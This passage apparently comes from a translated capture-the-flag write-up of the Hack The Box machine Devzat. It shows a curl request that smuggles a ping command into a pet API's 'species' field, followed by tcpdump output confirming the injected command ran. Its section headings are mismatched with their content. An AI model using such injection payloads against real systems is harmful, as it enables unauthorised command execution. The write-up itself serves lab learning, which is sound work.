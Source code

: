 ![](img/c1e628fd290c842811020d91ef53ba82.png)

main.go 文件的源代码

# TCPDump

```
┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# curl -d '{"name":"pencer","species":"giraffe;ping -c 4 10.10.14.235"}' -X POST http://pets.devzat.htb/api/pet
Pet was added successfully
```

# 反向外壳

```
┌──(root💀kali)-[~/htb/devzat]
└─# tcpdump icmp -i tun0      
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:10:45.396719 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 1, length 64
23:10:45.396729 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 1, length 64
23:10:46.398232 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 2, length 64
23:10:46.398241 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 2, length 64
23:10:47.399926 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 3, length 64
23:10:47.399936 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 3, length 64
23:10:48.401262 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 4, length 64
23:10:48.401273 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 4, length 64
```
